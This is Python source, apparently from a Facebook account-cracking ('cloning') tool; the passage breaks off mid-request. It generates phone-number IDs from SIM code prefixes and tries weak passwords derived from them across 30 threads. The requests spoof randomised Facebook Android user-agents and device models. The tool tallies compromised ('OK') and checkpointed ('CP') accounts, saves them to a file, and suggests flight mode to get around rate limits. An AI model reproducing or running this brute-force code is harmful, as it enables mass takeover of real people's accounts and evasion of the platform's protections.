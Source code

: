 
###-------[DEF CLONING]-----------####
def random_number():
    clear()
    print(f" \033[1;97m[\033[1;92m•\033[1;97m] Codes : \033[1;92m0310, 0320, 0330, 0340 ")
    print(f" \033[1;97m[\033[1;92m•\033[1;97m] Limit : \033[1;92m1000, 2000, 5000, 10000 ")
    linex()
    code = input(f" \033[1;97m[\033[1;92m?\033[1;97m] Enter Code  :\033[1;92m ")
    try:
        limit = int(input(f" \033[1;97m[\033[1;92m?\033[1;97m] Enter Limit :\033[1;92m "))
    except ValueError:
        limit = 5000
    for _ in range(limit):
        x = "".join(random.choice(string.digits) for _ in range(7))
        idz.append(x)
    with ThreadPoolExecutor(max_workers=30) as XYZ:
        clear()
        total_idz = str(len(idz))
        print(f"\033[1;96m BRUTE HAS BEEN STARTED BE PATIENT")
        print()
        linex()
        print(f' \033[1;32m(√) \033[1;37mTotal IDs  :\033[1;32m ',total_idz)
        print(' \033[1;37m{\033[1;32m+\033[1;37m} \033[1;35mCHOICE SIM CODE : \033[1;32m'+code)
        print(" \x1b[38;5;208m(!) \x1b[38;5;205mUse Flight Mode For Speed UP");print(' \033[1;33m[•] \033[1;37mYour \033[1;32mOK\033[1;37m/\033[1;33mCP\033[1;37m IDs Save in \033[1;32m>\033[1;37m /sdcard/XYZ')
        linex()
        for xyz in idz:
            uid = code+xyz
            pww = [xyz,uid] 
            XYZ.submit(crack, uid, pww, total_idz)
    linex()
    print(f" \033[1;97m[\033[1;92m!\033[1;97m] Process Completed ")
    print(f" \033[1;97m[\033[1;92m•\033[1;97] Total Ok Accounts : \033[1;92m{str(len(oks))} ")
    print(f" \033[1;97m[\033[1;92m•\033[1;97m] Total Cp Accounts : \033[1;91m{str(len(cps))} ")
    linex()
    input(f" \033[1;97m[\033[1;91m!\033[1;97m] Press Enter To Back ")
    menu()


###-------[METHOD CRACK]-----------####
def crack(uid, pww, total_idz):
    global loop
    global oks
    global cps
    x = random.choice(["\033[1;90m","\033[1;91m","\033[1;92m" ,"\x1b[38;5;208m","\033[1;93m","\033[1;94m","\033[1;95m","\033[1;96m"])
    sys.stdout.write(f"\r{x}[YounisXyz] {loop}/{total_idz} \033[1;92m{len(oks)}\033[1;97m/\033[1;91m{len(cps)} \033[1;97m[\033[1;93m{'{:.0%}'.format(loop/float(total_idz))}\033[1;97m] ")
    sys.stdout.flush()
    try:
        for pw in pww:
            fb_version = str(random.randint(100,436))+".0.0."+str(random.randint(11,99))+"."+str(random.randint(100,150))
            fb_version_code = str(random.randint(111111111,999999999))
            uppercase_letter = "".join(random.choice(string.ascii_uppercase))
            three_digit = "".join(random.choice(string.digits) for _ in range(3))
            device_model = f"SM-{uppercase_letter}{three_digit}{uppercase_letter}"
            android_version = str(random.randint(8,13))
            ua = f"[FBAN/FB4A;FBAV/{fb_version};FBBV/{fb_version_code};FBDM/{{density=3.2,width=1080,height=1920}};FBLC/en_GB;FBRV/631869122;FBCR/Zong;FBMF/samsung;FBBD/samsung;FBPN/com.facebook.katana;FBDV/{device_model});FBSV/{android_version};FBOP/19;FBCA/armeabi-v7a:armeabi;]"
            sex = random.choice(["Liger", "METERED", "MOBILE.EDGE", "MOBILE.HSPA", "MOBILE.LTE", "MODERATE"])
            data = {
                "adid": str(uuid.uuid4()),